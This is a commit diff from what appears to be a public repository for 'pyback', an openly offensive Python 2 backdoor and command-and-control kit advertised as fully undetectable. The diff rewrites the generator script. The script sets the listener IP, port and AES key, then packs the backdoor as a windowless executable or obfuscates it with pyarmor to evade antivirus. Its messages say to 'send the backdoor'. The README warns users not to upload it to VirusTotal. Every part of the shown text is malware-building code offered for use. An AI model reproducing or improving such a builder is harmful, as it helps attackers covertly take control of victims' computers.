

code refactor, backdoor generator rewrite

diff --git a/generate.py b/generate.py
@@ -23,7 +23,6 @@ cyan = "\033[1;32;36m"
 black = "\033[1;32;30m"
 r = "\x1b[0m"
 
-
 banner = yellow + """
 
         ██████╗░██╗░░░██╗██████╗░░█████╗░░█████╗░██╗░░██╗
@@ -44,27 +43,31 @@ banner = yellow + """
 """ + r
 
 
+# set configuration options and ask for packing/obfuscating
 def generator():
+    cleanup()
     try:
         print banner
-        print green, "Enter the setting parameters for backdoor :\n", r
-        dns = raw_input("[>] LHOST IP or DNS (default: 0.0.0.0): ")
+
+        print green, "Enter configuration parameters for backdoor :\n", r
+        dns = raw_input("\033[1;32;32m[>] Listener IP/DNS (default: 0.0.0.0): \x1b[0m")
         if dns == "":
             dns = "0.0.0.0"
-        port = raw_input("[>] LPORT (default: 6000): ")
+        port = raw_input("\033[1;32;32m[>] Listener port (default: 6000): \x1b[0m")
         if port == "":
             port = 6000
         port = int(port)
-        password = raw_input("[>] Password for AES communication encryption (default: 'djknBDS89dHFS(*HFSD())'): ")
+        password = raw_input(
+            "\033[1;32;32m[>] Password for AES communication encryption (default: 'djknBDS89dHFS(*HFSD())'): \x1b[0m")
         if password == "":
             password = "djknBDS89dHFS(*HFSD())"
         while True:
             print blue, "\n\n[*] Verify your settings [*]\n"
-            print "DNS/IP : ", dns
-            print "port: ", port
+            print "Listener IP/DNS : ", dns
+            print "Listener port: ", port
             print "AES encryption password : ", password
             print r
-            vrfy = raw_input("\n[*] is everything correct ? (Y/n): ")
+            vrfy = raw_input("\n[*] Is everything correct ? (Y/n): ")
             if vrfy == "y" or vrfy == "Y" or vrfy == "":
                 break
             elif vrfy == "n":
@@ -117,39 +120,85 @@ ip = socket.gethostbyname(dns)
 # AES channel password ##############
 password = """ + "'" + password + "'" + """
 """
+
         f = open(setting_path, "w")
         f.write(setting)
         f.close()
-        choice = raw_input("\033[1;32;33m\n[*] Do you want to obfuscate and pack the backdoor?(Y/n) \x1b[0m")
+
+        choice = raw_input("\033[1;32;33m\n[*] Do you want to pack the backdoor?(Y/n) \x1b[0m")
         if choice == "" or choice == "y" or choice == "Y":
-            obfuscate()
+            obfuscation = raw_input(
+                "\033[1;32;33m\n[*] Do you want to obfuscate the backdoor using pyarmor? (Y/n) \x1b[0m")
+            if obfuscation == "" or obfuscation == "y" or obfuscation == "Y":
+                obfuscate()
+            else:
+                pack()
         else:
-            print green, "\n[+] Configuration completed successfully, send the backdoor and run the cnc... happy hacking :) [+]", r
+            print green, "\n[+] Configuration completed, send the backdoor and run the cnc... happy hacking :) [+]", r
     except Exception, e:
         print red, "\n\n[!] Error occurred while configuring backdoor [!]\n\n", r
 
 
+# pack using pyinstaller
+def pack():
+    try:
+        print yellow, "\n[*] Packing started, please wait... [*]\n", r
+        subprocess.check_output("pyinstaller --noconsole -F backdoor.py", shell=True)
+        cleanup()
+        print green, "[+] Packing completed successfully, the backdoor executable saved in 'output' directory [+]", r
+        print green, "\n[+] Configuration completed, send the backdoor and run the cnc... happy hacking :) [+]", r
+    except Exception, e:
+        cleanup()
+        print red, "\n\n[!] Error occurred while Packing the backdoor [!]\n\n", r
+        print e
+
+
+# obfuscate and pack using pyarmor and pyinstaller
 def obfuscate():
     try:
-        print cyan, """\n\n
+        print cyan, "\ndefault pyarmor options: --obf-mod 2  --obf-code 2 --wrap-mode 1 --advanced 2", r
+        options = raw_input("\n\033[1;32;32m[>] Use custom options for pyarmor obfuscation?(N/y)\x1b[0m ")
+        if options == "y":
+            print cyan, """\n\n
+    
 pyarmor obfuscation options:
+
 --obf-mod {0,1,2}
 --obf-code {0,1,2}
 --wrap-mode {0,1}
 --advanced {0,1,2,3,4}
-		""", r
-        options = raw_input("\033[1;32;32m[>] Do you have any extra options for pyarmor obfuscation?(N/y)\x1b[0m ")
-        if options == "y":
-            arguments = raw_input("[>] enter the space-separated options for pyarmor obfuscation:  ")
+
+example (default options): --obf-mod 2  --obf-code 2 --wrap-mode 1 --advanced 2
+
+            		""", r
+            arguments = raw_input(
+                "\n\033[1;32;32m[>] enter the space-separated options for pyarmor obfuscation:\x1b[0m   ")
+            if arguments == "":
+                arguments = " --obf-code 2 --wrap-mode 1 --advanced 2 "
             print yellow, "\n[*] Obfuscation and packing started, please wait... [*]\n", r
             print(subprocess.check_output(
-                'pyarmor pack -x "' + str(arguments) + '" -e "--onefile --noconsole" backdoor.py', shell=True))
+                'pyarmor -q pack -x "' + str(arguments) + '" -e "--onefile --noconsole" backdoor.py', shell=True))
         else:
             print yellow, "\n[*] Obfuscation and packing started, please wait... [*]\n", r
-            print(subprocess.check_output('pyarmor pack -e "--onefile --noconsole" backdoor.py', shell=True))
-        print green, "[+] Obfuscation and packing completed successfully, the backdoor executable saved in dist directory [+]", r
+            print(subprocess.check_output('pyarmor -q pack -e "--onefile --noconsole" backdoor.py', shell=True))
+        cleanup()
+        print green, "[+] Obfuscation and packing completed, the backdoor executable saved in 'output' directory [+]", r
+        print green, "\n[+] Configuration completed, send the backdoor and run the cnc... happy hacking :) [+]", r
     except Exception, e:
+        cleanup()
         print red, "\n\n[!] Error occurred while obfuscating/packing the backdoor [!]\n\n", r
         print e
+
+
+# clean up junk files and directories
+def cleanup():
+    if os_type == "linux":
+        subprocess.call("mv dist/backdoor* output/", shell=True)
+        subprocess.call("rm -rf build/ dist/ *.spec", shell=True)
+    elif os_type == "windows":
+        subprocess.call("move dist\\backdoor* output ", shell=True)
+        subprocess.call("rmdir /s /Q build dist", shell=True)
+        subprocess.call("del /f /Q *.spec", shell=True)
+
 
 generator()

diff --git a/setup.py b/setup.py
@@ -46,9 +46,8 @@ error_banner = red,"""
 please make sure:
 
 1. python 2 is installed correctly
-2. VCforPython is installed for Windows systems
-3. you have a working network connection for pip
-4. there are no mismatches in python packages
+2. you have a working network connection for pip
+3. there are no mismatches in python packages
 
 """,r
 

diff --git a/README.md b/README.md
@@ -2,7 +2,7 @@
 #### FUD (if you keep it that way) cross-platform backdoor and CNC written in python 2 with post exploitation modules and encrypted communication.  
 
 
-# Top Features  
+# Features  
 .  Automated obfuscation and packing with pyarmor and pyinstaller  
 .  Cross-platform modules (of course)  
 .  Direct shell access ( no need to type extra garbage )  
@@ -59,7 +59,7 @@
 # POC  
 ### :heavy_exclamation_mark: DO NOT upload this on VirusTotal or anywhere else, I DID IT FOR YOU :heavy_exclamation_mark:  
 
-### Updated in 09 Feb 2021:  
+### Updated in 23 Apr 2021:  
 
 ![Image description](https://github.com/7h3w4lk3r/pyback/blob/master/poc.png) 
 
